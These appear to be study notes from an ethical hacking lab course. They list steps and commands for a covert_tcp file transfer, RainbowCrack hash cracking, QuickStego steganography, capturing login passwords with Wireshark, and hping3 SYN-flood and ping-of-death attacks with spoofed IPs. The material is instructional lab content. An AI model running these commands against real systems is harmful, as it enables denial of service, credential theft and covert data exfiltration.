   - **Tcpdump captures no packets** 
- **Attacker** 
- **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 8888 -dest\_port 9999 -file /home/attacker/Desktop/send/message.txt** 
- Wireshark (message string being send in individual packet) 

**Lab0-Task0: Rainbowcrack and QuickStego** 

- Use Winrtgen to generate a rainbow table 
- Launch RainbowCrack 
- File->Load NTLM Hashes from PWDUMP File 
- Rainbow Table->Search Rainbow Table 
- Use the generated rainbow table 
- RainbowCrack automatically starts to crack the hashes 

**Lab 0-Task1: Rainbowcrack and QuickStego** 

- Launch QuickStego 
- Open Image, and select target .jpg file 
- Open Text, and select a txt file 
- Hide text, save image file 
- Re-launch, Open Image 
- Select stego file 
- Hidden text shows up 

**Module 08: Sniffing** 

**Lab2-Task1: Password Sniffing using Wireshark** 

- **Attacker** 
- Wireshark 
- **Target** 
- www.moviescope.com 
- Login 
- **Attacker** 
- Stop capture 
- File-&gt;Save as 
- Filter: **http.request.method==POST** 
- RDP log in Target 
- service 
- start Remote Packet Capture Protocol v.0 (experimental) 
- Log off Target 
- Wireshark-&gt;Capture options-&gt;Manage Interface-&gt;Remote Interfaces 
- Add a remote host and its interface 
- Fill info 
- **Target** 
- Log in 
- Browse website and log in 
- **Attacker** 
- Get packets 

**Module 10: Denial-of-Service** 

**Lab1-Task2: Perform a DoS Attack on a Target Host using hping3** 

- **Target:** 
- Wireshark-&gt;Ethernet 
- **Attacker** 
- **hping3 -S [Target IP] -a [Spoofable IP] -p 22 -flood** 
- **-S: Set the SYN flag** 
- **-a: Spoof the IP address** 
- **-p: Specify the destination port** 
- **--flood: Send a huge number of packets** 
- **Target** 
- Check wireshark 
- **Attacker (Perform PoD)** 
- **hping3 -d 65538 -S -p 21 –flood [Target IP]** 
- **-d: Specify data size** 